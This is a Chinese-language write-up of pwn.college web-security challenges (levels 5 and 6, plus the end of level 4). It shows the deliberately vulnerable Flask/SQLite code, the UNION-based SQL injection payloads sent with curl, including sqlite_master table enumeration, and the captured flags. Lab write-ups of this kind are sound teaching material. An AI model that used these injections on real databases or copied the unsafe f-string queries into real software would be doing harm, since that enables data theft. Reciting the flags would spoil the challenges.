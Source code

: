 在user的地方填上`flag";--`即可
```
pwn.college{YeVTtF9Vvh8mWYEuq-G30ezoOld.dBTOzMDL2QjMyMzW}
```

## level5 Exploit a structured query language injection vulnerability to leak data
```
def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```
这个看代码的话，直接上联合查询
```
hacker@web-security-level-5:~$ curl "http://challenge.localhost:80/?query=%22%20UNION%20SELECT%20password%20FROM%20users%20--"
pwn.college{ky74n-Ct2lQvah1GVjTktI5hfs6.dFTOzMDL2QjMyMzW}
```
其实还是简单的。
## level6 Exploit a structured query language injection vulnerability with an unknown database structure
```
def level6():
    table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"
    db.execute((f"CREATE TABLE IF NOT EXISTS {table_name} AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```
这个是说我们不知道库名和表名，但是sqlite有如下语句可以查询
```
--  this query will extract data from databases.

SELECT name FROM sqlite_master WHERE type = "table"

--  or

SELECT tbl_name FROM sqlite_master
```
这样我们就可以联合查询了，先查表名
```
hacker@web-security-level-6:~$ curl 'http://challenge.localhost:80/?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%20%3D%20%22table%22%3B--'
table14306546637912208127
hacker@web-security-level-6:~$
```
然后从这个表读取flag即可
```
hacker@web-security-level-6:~$ curl 'http://challenge.localhost:80/?query=%20%22%20UNION%20SELECT%20password%20FROM%20table14306546637912208127%20%3B%20--'
pwn.college{g044nYlCw5bx-l7OByeCKKr9QCs.dJTOzMDL2QjMyMzW}
hacker@web-security-level-6:~$
```
